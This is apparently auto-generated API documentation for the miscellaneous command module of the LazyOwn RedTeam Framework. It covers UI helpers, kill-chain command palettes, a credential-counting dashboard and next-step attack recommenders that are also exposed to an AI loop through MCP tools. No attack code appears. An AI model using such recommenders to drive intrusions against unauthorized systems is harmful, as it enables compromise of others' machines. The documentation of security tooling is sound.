


# `cli.commands.misc_migrated`

> Source: [cli/commands/misc_migrated.py:1](../../cli/commands/misc_migrated.py#L1) | language `py` | coverage 96.8% | [API index](../index.md)

misc commands migrated from lazyown.py.

Auto-generated by scripts/migrate_lazyown.py.

## Contents

- **Classes:** [`MiscMigratedCommandSet`](#miscmigratedcommandset)
- **Functions:** [`__getattr__`](#__getattr__)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="miscmigratedcommandset"></a>

### `MiscMigratedCommandSet`

`class` | [cli/commands/misc_migrated.py:87](../../cli/commands/misc_migrated.py#L87)

```python
class MiscMigratedCommandSet(LazyOwnCommandSet)
```

Bases: [`LazyOwnCommandSet`](cli.commands._base.py.md#lazyowncommandset)

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`phase`](#miscmigratedcommandset-phase) |  | `'misc'` |  |
| [`category`](#miscmigratedcommandset-category) |  | `'12. Miscellaneous'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`do_notify`](#miscmigratedcommandset-do_notify) | method | Command to trigger a toastr-like notification. |
| [`do_EOF`](#miscmigratedcommandset-do_eof) | method | Handle the end-of-file (EOF) condition. |
| [`do_palette`](#miscmigratedcommandset-do_palette) | method | Browse the operator command catalogue grouped by kill-chain phase. |
| [`do_graph_search`](#miscmigratedcommandset-do_graph_search) | method | Fuzzy search the graphify knowledge graph for nodes by label. |
| [`do_neighbors`](#miscmigratedcommandset-do_neighbors) | method | Show graph neighbors of a node or command from the graphify graph. |
| [`do_god_nodes`](#miscmigratedcommandset-do_god_nodes) | method | Show the most-connected nodes ("god nodes") from the graph. |
| [`do_suggest_next`](#miscmigratedcommandset-do_suggest_next) | method | Suggest next commands by walking the graph from recent activity. |
| [`do_recommend_next`](#miscmigratedcommandset-do_recommend_next) | method | Recommend the next action via the unified recommendation engine. |
| [`do_explore`](#miscmigratedcommandset-do_explore) | method | Show exploration coverage and addon/tool suggestions per service. |
| [`do_prev`](#miscmigratedcommandset-do_prev) | method | Show prerequisite commands for a verb (the chain's `[`prev`](cli.command_chain.py.md#commandchain-prev)` arrow). |
| [`do_dashboard`](#miscmigratedcommandset-do_dashboard) | method | Launch the full-screen LazyOwn operator dashboard (Textual TUI). |
| [`do_palette_k`](#miscmigratedcommandset-do_palette_k) | method | Open the fuzzy Command-K palette overlay. |
| [`do_browse`](#miscmigratedcommandset-do_browse) | method | Open the sessions/ TUI browser. |
| [`do_timeline_browser`](#miscmigratedcommandset-do_timeline_browser) | method | Open the timeline scrubber over the session report CSV. |
| [`do_graph_overlay`](#miscmigratedcommandset-do_graph_overlay) | method | Open the graph overlay over the graphify knowledge graph. |
| [`do_toast_clear`](#miscmigratedcommandset-do_toast_clear) | method | Mark every pending toast event as seen without printing them. |
| [`do_exit`](#miscmigratedcommandset-do_exit) | method | Exit the command line interface. |
| [`do_banner`](#miscmigratedcommandset-do_banner) | method | Show the banner |
| [`do_config_banner`](#miscmigratedcommandset-do_config_banner) | method | Open a Powerlevel10k-style wizard to toggle prompt segments. |
| [`do_aliass`](#miscmigratedcommandset-do_aliass) | method | Prints all configured aliases and their associated commands. |
| [`do_graph`](#miscmigratedcommandset-do_graph) | method | Generates a graph from JSON payload files containing URL, RHOST, and RPORT. |
| [`do_h`](#miscmigratedcommandset-do_h) | method | Open a new window within a tmux session using the LazyOwn RedTeam Framework. |
| [`do_v`](#miscmigratedcommandset-do_v) | method | Open a new window within a tmux session using the LazyOwn RedTeam Framework. |
| [`do_links`](#miscmigratedcommandset-do_links) | method | Displays a list of useful links and allows the user to select and copy a link to the clipboard. |
| [`do_news`](#miscmigratedcommandset-do_news) | method | Show the Hacker News in the terminal. |
| [`do_check_update`](#miscmigratedcommandset-do_check_update) | method | Checks for updates by comparing the local version with the remote version. |
| [`do_addalias`](#miscmigratedcommandset-do_addalias) | method | Add a new alias with support for placeholders like {rhost}, {lhost}, {lport}, etc. |
| [`do_listaliases`](#miscmigratedcommandset-do_listaliases) | method | List all available aliases. |

<a id="miscmigratedcommandset-do_notify"></a>

#### `MiscMigratedCommandSet.do_notify`

`method` | [cli/commands/misc_migrated.py:92](../../cli/commands/misc_migrated.py#L92)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_notify(self, arg)
```

Command to trigger a toastr-like notification.

Usage: notify <type> <message> Example: notify success Implant checked in!

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arg` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_eof"></a>

#### `MiscMigratedCommandSet.do_EOF`

`method` | [cli/commands/misc_migrated.py:111](../../cli/commands/misc_migrated.py#L111)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_EOF(self, line)
```

Handle the end-of-file (EOF) condition.

This method is called when the user sends an end-of-file (EOF) signal
by pressing Ctrl+D. It is typically used to handle cleanup or exit
operations when the user terminates input.

In this implementation, it prints a farewell message and returns True
to indicate that the shell should exit.

License: This function is part of a program released under the GNU General
Public License v3.0 (GPLv3). You can redistribute it and/or modify it
under the terms of the GPLv3, as published by the Free Software Foundation.

Note: This method is a part of the [`cmd`](lazyown.py.md#lazyownshell-cmd) library's command handling
system. You can override it in a subclass to customize its behavior.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```pycon
>>> shell = LazyOwnShell()
>>> shell.do_EOF(None)
LazyOwn say Goodbye!
(shell exits)
```

*Calls:* [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_palette"></a>

#### `MiscMigratedCommandSet.do_palette`

`method` | [cli/commands/misc_migrated.py:179](../../cli/commands/misc_migrated.py#L179)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_palette(self, line)
```

Browse the operator command catalogue grouped by kill-chain phase.

The data source is :file:`cli/command_index.json`, generated by
``scripts/build_command_index.py``. Rendering is delegated to
[`cli.palette_command.render`](cli.palette_command.py.md#render) so the same logic powers the C2
``/palette`` endpoint and the MCP ``lazyown_palette`` tool.

Usage:
    ``palette``                     overview of every phase
    ``palette <phase>``             list commands in a phase
    ``palette <phase> <query>``     filter that listing
    ``palette --search <query>``    fuzzy search across all phases
    ``palette --info <name>``       full detail for a single command

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_graph_search"></a>

#### `MiscMigratedCommandSet.do_graph_search`

`method` | [cli/commands/misc_migrated.py:204](../../cli/commands/misc_migrated.py#L204)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_graph_search(self, line)
```

Fuzzy search the graphify knowledge graph for nodes by label.

Usage: ``graph_search <query> [limit]``. Returns ranked nodes from
``graphify-out/graph_lazyown.json`` with degree, community and
source location. Run ``/graphify .`` from the project root once if
the graph is missing.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | free-text query, optionally followed by a numeric limit. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_neighbors"></a>

#### `MiscMigratedCommandSet.do_neighbors`

`method` | [cli/commands/misc_migrated.py:232](../../cli/commands/misc_migrated.py#L232)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_neighbors(self, line)
```

Show graph neighbors of a node or command from the graphify graph.

Usage: ``neighbors <node_or_command> [depth] [limit]``. Resolves
the closest matching node (by id or label) and walks the graph
outward. Useful for the question *"if I just ran X, what is it
connected to?"*.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | node id or label, optional integer depth, optional integer limit. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_god_nodes"></a>

#### `MiscMigratedCommandSet.do_god_nodes`

`method` | [cli/commands/misc_migrated.py:259](../../cli/commands/misc_migrated.py#L259)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_god_nodes(self, line)
```

Show the most-connected nodes ("god nodes") from the graph.

Usage: ``god_nodes [N]``. These are the core abstractions of the
codebase by degree centrality. Useful as orientation when you've
just started a campaign and want a map of the framework.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | optional numeric limit (default from the advisor config). |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_suggest_next"></a>

#### `MiscMigratedCommandSet.do_suggest_next`

`method` | [cli/commands/misc_migrated.py:278](../../cli/commands/misc_migrated.py#L278)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_suggest_next(self, line)
```

Suggest next commands by walking the graph from recent activity.

Usage: ``suggest_next [N]``. Reads ``sessions/LazyOwn_session_report.csv``
to find recent commands and recommends graph neighbours weighted by
inverse distance. Pass space-separated command names to override the
recent history (``suggest_next lazynmap do_ping 7``).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | optional list of seed commands, optionally followed by a numeric limit. |

**Returns:** None

*Calls:* [`ExplorationEngine.__init__`](cli.exploration.py.md#explorationengine-__init__), [`ExplorationEngine.unexplored_addons`](cli.exploration.py.md#explorationengine-unexplored_addons), [`ExplorationEngine.unexplored_tools`](cli.exploration.py.md#explorationengine-unexplored_tools), [`resolve_current_os`](cli.exploration.py.md#resolve_current_os), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_recommend_next"></a>

#### `MiscMigratedCommandSet.do_recommend_next`

`method` | [cli/commands/misc_migrated.py:404](../../cli/commands/misc_migrated.py#L404)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_recommend_next(self, line)
```

Recommend the next action via the unified recommendation engine.

This is the single source of truth for "what next". The engine in
``cli/recommendation.py`` fuses every available signal into one ranked
list with full provenance:

- **policy** (``skills/lazyown_policy.py``) — learned kill-chain category
  priors that up-weight matching concrete actions.
- **recon plan** (``cli/recon_plan.py``) — addons/tools/commands whose
  trigger matches services in the latest nmap scan.
- **graph** (``cli/graph_advisor.py``) — graphify neighbours of your
  recent activity. Requires ``/graphify .`` at least once.
- **kill-chain** — static adjacency / phase-priority tables.

Signals whose backend is absent degrade silently. This is the CLI
equivalent of the MCP tool ``lazyown_recommend_next``.

Usage:
    ``recommend_next [N]``

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`build_default_engine`](cli.autosuggest.py.md#build_default_engine), [`build_context`](cli.recommendation_signals.py.md#build_context), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_explore"></a>

#### `MiscMigratedCommandSet.do_explore`

`method` | [cli/commands/misc_migrated.py:458](../../cli/commands/misc_migrated.py#L458)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_explore(self, line)
```

Show exploration coverage and addon/tool suggestions per service.

Reads ``sessions/scan_*.nmap.xml`` for discovered services, joins
them with the ``trigger`` and ``os`` fields declared in every
``lazyaddons/*.yaml`` and ``tools/*.tool``, and renders a Rich
tree alongside a coverage table summarising how much of the
attack surface has already been touched by previous commands.

Usage:
    ``explore``                show coverage for the active rhost
    ``explore <target>``       force a target (defaults to ``rhost``)

The view highlights items whose trigger matches a discovered
service but have never been run, so the operator can pick the
next high-value command without manually scanning the YAMLs.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`ExplorationEngine.__init__`](cli.exploration.py.md#explorationengine-__init__), [`ExplorationEngine.history`](cli.exploration.py.md#explorationengine-history), [`resolve_current_os`](cli.exploration.py.md#resolve_current_os), [`render_exploration`](cli.exploration_view.py.md#render_exploration)

<a id="miscmigratedcommandset-do_prev"></a>

#### `MiscMigratedCommandSet.do_prev`

`method` | [cli/commands/misc_migrated.py:489](../../cli/commands/misc_migrated.py#L489)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_prev(self, line)
```

Show prerequisite commands for a verb (the chain's `[`prev`](cli.command_chain.py.md#commandchain-prev)` arrow).

Usage:
    ``prev <command>``     list ordered prerequisites
    `[`prev`](cli.command_chain.py.md#commandchain-prev)`               use the most recent command from history

The list reflects the static prerequisite registry declared in
``cli/command_chain.py`` and is also exposed via the MCP tool
``lazyown_command_prev`` so the AI loop sees the same view.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | command verb (with or without the ``do_`` prefix). |

**Returns:** None

*Calls:* [`CommandChain.__init__`](cli.command_chain.py.md#commandchain-__init__), [`CommandChain.prev`](cli.command_chain.py.md#commandchain-prev), [`ExplorationEngine.__init__`](cli.exploration.py.md#explorationengine-__init__), [`ExplorationEngine.history`](cli.exploration.py.md#explorationengine-history), [`resolve_current_os`](cli.exploration.py.md#resolve_current_os), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_dashboard"></a>

#### `MiscMigratedCommandSet.do_dashboard`

`method` | [cli/commands/misc_migrated.py:526](../../cli/commands/misc_migrated.py#L526)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_dashboard(self, line)
```

Launch the full-screen LazyOwn operator dashboard (Textual TUI).

Opens an auto-refreshing terminal dashboard showing the active target,
kill chain progress, recent commands, objectives, credentials, beacons
and graph-driven next-step hints. Press Q or Ctrl-C to close and return
to the shell.

Usage: ``dashboard``

The dashboard reads from:
- ``payload.json`` — target / attacker config and feature flags.
- ``sessions/world_model.json`` — current phase and objectives.
- ``sessions/tasks.json`` — active task list.
- ``sessions/LazyOwn_session_report.csv`` — recent commands.
- ``sessions/credentials*.txt`` / ``sessions/hash*.txt`` — credential counts.
- ``graphify-out/graph_lazyown.json`` — next-step hints (requires ``/graphify .``).

The ``textual`` package must be installed (``pip install textual``). When
the package is missing the command prints an install hint and returns.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Unused. Reserved for future flags. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="miscmigratedcommandset-do_palette_k"></a>

#### `MiscMigratedCommandSet.do_palette_k`

`method` | [cli/commands/misc_migrated.py:561](../../cli/commands/misc_migrated.py#L561)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_palette_k(self, line)
```

Open the fuzzy Command-K palette overlay.

Modal Textual overlay that lists every ``do_*`` command, ranks
recents first, narrows on substring input and returns the
selected verb back to the shell for execution.

Usage: ``palette_k``

Requires ``textual``. When the package is missing or the command
index is unavailable, the call prints an install hint and
returns without raising.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_browse"></a>

#### `MiscMigratedCommandSet.do_browse`

`method` | [cli/commands/misc_migrated.py:590](../../cli/commands/misc_migrated.py#L590)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_browse(self, line)
```

Open the sessions/ TUI browser.

Categorised view of ``sessions/`` artefacts (credentials,
hashes, vulnerabilities, scans, notes, events, world model)
with a side preview pane and substring filter.

Usage: ``browse``

Requires ``textual``. When the package is missing, the command
prints an install hint and returns.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="miscmigratedcommandset-do_timeline_browser"></a>

#### `MiscMigratedCommandSet.do_timeline_browser`

`method` | [cli/commands/misc_migrated.py:612](../../cli/commands/misc_migrated.py#L612)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_timeline_browser(self, line)
```

Open the timeline scrubber over the session report CSV.

Scrollable, filterable view over
``sessions/LazyOwn_session_report.csv``. Highlight a row to see
every recorded column for that command.

Usage: ``timeline_browser``

Requires ``textual``.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="miscmigratedcommandset-do_graph_overlay"></a>

#### `MiscMigratedCommandSet.do_graph_overlay`

`method` | [cli/commands/misc_migrated.py:631](../../cli/commands/misc_migrated.py#L631)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_graph_overlay(self, line)
```

Open the graph overlay over the graphify knowledge graph.

Shows the top central nodes by default and switches to the
neighbourhood of a focus node when the operator types one. Esc
closes; Tab toggles between modes.

Usage: ``graph_overlay``

Requires ``textual`` and a populated ``graphify-out/graph_lazyown.json``
(produced by ``/graphify .``).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="miscmigratedcommandset-do_toast_clear"></a>

#### `MiscMigratedCommandSet.do_toast_clear`

`method` | [cli/commands/misc_migrated.py:651](../../cli/commands/misc_migrated.py#L651)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_toast_clear(self, line)
```

Mark every pending toast event as seen without printing them.

Useful after long pauses where the autonomous daemon backlogged
events the operator no longer cares to read. The state file at
``sessions/.toast_state.json`` is updated atomically.

Usage: ``toast_clear``

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_exit"></a>

#### `MiscMigratedCommandSet.do_exit`

`method` | [cli/commands/misc_migrated.py:671](../../cli/commands/misc_migrated.py#L671)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_exit(self, arg)
```

Exit the command line interface.

This function prompts the user to confirm whether they want to exit the command line interface. If confirmed, it will terminate the program. Otherwise, it will cancel the exit.

Usage:
    exit


Manual execution:
1. Prompt the user with a confirmation message to exit the CLI.
2. If the user confirms with 's', print a message and exit the program.
3. If the user provides any other input, print a cancellation message and remain in the CLI.

Dependencies:
- `sys.exit` function for exiting the program.

Example:
    To execute the function, simply call `exit`.

Note:
    - The confirmation prompt is in Spanish.
    - Ensure that `sys` is imported in your script.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arg` | `str` |  | This parameter is not used in this function. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_banner"></a>

#### `MiscMigratedCommandSet.do_banner`

`method` | [cli/commands/misc_migrated.py:744](../../cli/commands/misc_migrated.py#L744)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_banner(self, line)
```

Show the banner

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_config_banner"></a>

#### `MiscMigratedCommandSet.do_config_banner`

`method` | [cli/commands/misc_migrated.py:754](../../cli/commands/misc_migrated.py#L754)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_config_banner(self, line)
```

Open a Powerlevel10k-style wizard to toggle prompt segments.

Arrow keys move, Space toggles, Enter saves to ``payload.json`` under
the `[`banner`](banner.py.md)` block, Escape cancels. `[`d`](static.js.particles.js.md#d)` resets to factory
defaults; `[`a`](static.js.xterm-addon-web-links-0.5.0.js.md#a)` enables every segment; ``n`` disables every segment.
The shell prompt refreshes immediately after a save without
requiring a restart.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | optional sub-action. ``show`` prints the current enabled segments without opening the wizard. ``reset`` writes the factory-default segment selection back to payload.json. |

**Returns:** None

*Calls:* [`BannerSettings.defaults`](cli.banner_config.py.md#bannersettings-defaults), [`BannerSettings.from_payload`](cli.banner_config.py.md#bannersettings-from_payload), [`build_default_registry`](cli.banner_config.py.md#build_default_registry), [`load_payload`](core.config.py.md#load_payload), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_aliass"></a>

#### `MiscMigratedCommandSet.do_aliass`

`method` | [cli/commands/misc_migrated.py:798](../../cli/commands/misc_migrated.py#L798)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_aliass(self, line)
```

Prints all configured aliases and their associated commands.

1. Retrieves the list of aliases from the [`LazyOwnShell`](lazyown.py.md#lazyownshell) instance:
- Iterates through each alias and its associated command.

2. For each alias:
- Displays the alias name and the full command it represents.


Manual execution:
To manually run these tasks, you would need to:
- Ensure that aliases are configured in the [`LazyOwnShell`](lazyown.py.md#lazyownshell) instance.
- Manually review the aliases and their commands as displayed.

Note: This function assumes that aliases are managed by the [`LazyOwnShell`](lazyown.py.md#lazyownshell) instance and are available for retrieval.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This parameter is not used in the function. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_graph"></a>

#### `MiscMigratedCommandSet.do_graph`

`method` | [cli/commands/misc_migrated.py:826](../../cli/commands/misc_migrated.py#L826)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_graph(self, line)
```

Generates a graph from JSON payload files containing URL, RHOST, and RPORT.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="miscmigratedcommandset-do_h"></a>

#### `MiscMigratedCommandSet.do_h`

`method` | [cli/commands/misc_migrated.py:886](../../cli/commands/misc_migrated.py#L886)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_h(self, arg)
```

Open a new window within a tmux session using the LazyOwn RedTeam Framework.

This method is designed to create a new horizontal split window in an existing
tmux session, where the specified command will be executed. The command
used to open the new window is the `./run --no-banner` script, which is
intended for use within the LazyOwn RedTeam Framework environment.

The method first ensures that the specified tmux session is active by calling
the `ensure_tmux_session` function. If the session is not already running,
it will create a new one. After confirming that the session is active, it
proceeds to create a new horizontal window with a specified size. The size of
the new window is currently set to 50% of the available terminal space.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arg` | `str` |  | Additional arguments passed to the command, if any. This can be used to customize the behavior of the command executed in the new window. However, in the current implementation, this argument is not utilized and can be left as an empty string. |

**Example**

```python
If this method is called within a command-line interface of the LazyOwn
RedTeam Framework, it will open a new horizontal tmux window and execute
the `./run --no-banner` command within it.
```

> **Note:** - Ensure that tmux is installed and properly configured on the system.

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_v"></a>

#### `MiscMigratedCommandSet.do_v`

`method` | [cli/commands/misc_migrated.py:932](../../cli/commands/misc_migrated.py#L932)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_v(self, arg)
```

Open a new window within a tmux session using the LazyOwn RedTeam Framework.

This method is designed to create a new vertical split window in an existing
tmux session, where the specified command will be executed. The command
used to open the new window is the `./run --no-banner` script, which is
intended for use within the LazyOwn RedTeam Framework environment.

The method first ensures that the specified tmux session is active by calling
the `ensure_tmux_session` function. If the session is not already running,
it will create a new one. After confirming that the session is active, it
proceeds to create a new vertical window with a specified size. The size of
the new window is currently set to 50% of the available terminal space.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arg` | `str` |  | Additional arguments passed to the command, if any. This can be used to customize the behavior of the command executed in the new window. However, in the current implementation, this argument is not utilized and can be left as an empty string. |

**Example**

```python
If this method is called within a command-line interface of the LazyOwn
RedTeam Framework, it will open a new vertical tmux window and execute
the `./run --no-banner` command within it.
```

> **Note:** - Ensure that tmux is installed and properly configured on the system.

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="miscmigratedcommandset-do_links"></a>

#### `MiscMigratedCommandSet.do_links`

`method` | [cli/commands/misc_migrated.py:978](../../cli/commands/misc_migrated.py#L978)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_links(self, line='')
```

Displays a list of useful links and allows the user to select and copy a link to the clipboard.

This function performs the following actions:
1. Defines a list of links with their aliases.
2. Filters the links based on the input [`line`](modules.defense_eval.py.md#evaluation-line) if provided.
3. Displays the filtered links with their aliases and URLs.
4. Prompts the user to select a link by entering the corresponding number.
5. Copies the selected link to the clipboard.

line (str, optional): A string to filter the links. If provided, only the links containing
                    the string in their alias or URL will be displayed. Defaults to an empty string.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  | `''` |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip)

<a id="miscmigratedcommandset-do_news"></a>

#### `MiscMigratedCommandSet.do_news`

`method` | [cli/commands/misc_migrated.py:1041](../../cli/commands/misc_migrated.py#L1041)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_news(self, line)
```

Show the Hacker News in the terminal.

Return None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | optional |

*Calls:* [`display_news`](utils.py.md#display_news), [`scrape_news`](utils.py.md#scrape_news)

<a id="miscmigratedcommandset-do_check_update"></a>

#### `MiscMigratedCommandSet.do_check_update`

`method` | [cli/commands/misc_migrated.py:1054](../../cli/commands/misc_migrated.py#L1054)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_check_update(self, line)
```

Checks for updates by comparing the local version with the remote version.

This function:
    - Fetches the remote version from a JSON file hosted on GitHub.
